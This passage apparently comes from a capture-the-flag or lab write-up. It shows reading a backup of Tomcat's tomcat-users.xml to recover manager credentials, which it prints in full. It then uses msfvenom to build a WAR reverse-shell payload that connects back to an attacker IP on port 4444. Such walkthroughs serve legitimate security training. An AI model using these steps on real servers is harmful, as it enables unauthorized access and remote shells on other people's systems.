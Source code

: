 After digging around we can see the `tomcat-users.xml` file on the `conf` directory which is unreadable to us, however we can read the backup file! We also could’ve found this by using the find command:

```bash
find / -type f -name *.bak -exec ls -l {} \; 2>/dev/null
```

![image.png](image%204.png)

And we got the login credentials! Now we can login to the Tomcat admin page.

```
tomcatadm : T0mc@t_s3cret_p@ss!
```

![image.png](image%205.png)

From here we can upload and deploy a `war` file. We can craft a reverse shell payload using `msfvenom`:

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.15.207 LPORT=4444 -f war > shell.war
```
